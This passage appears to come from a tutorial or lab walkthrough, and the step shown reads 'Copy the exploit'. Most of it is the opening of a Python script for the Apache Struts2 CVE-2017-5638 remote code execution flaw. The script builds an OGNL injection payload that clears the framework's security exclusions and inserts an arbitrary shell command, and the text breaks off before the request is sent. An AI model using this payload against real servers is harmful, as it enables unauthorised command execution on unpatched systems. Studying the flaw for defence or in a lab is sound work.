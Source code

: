    ![image-20211016141444657](images/image-20211016141444657.png)

3. Copy the exploit 

   struts2-cve-2017-5638.py 

   ```python
   #!/usr/bin/python
   # -*- coding: utf-8 -*-
   
   import urllib2
   import httplib
   
   
   def exploit(url, cmd):
       payload = "%{(#_='multipart/form-data')."
       payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
       payload += "(#_memberAccess?"
       payload += "(#_memberAccess=#dm):"
       payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
       payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
       payload += "(#ognlUtil.getExcludedPackageNames().clear())."
       payload += "(#ognlUtil.getExcludedClasses().clear())."
       payload += "(#context.setMemberAccess(#dm))))."
       payload += "(#cmd='%s')." % cmd
   ```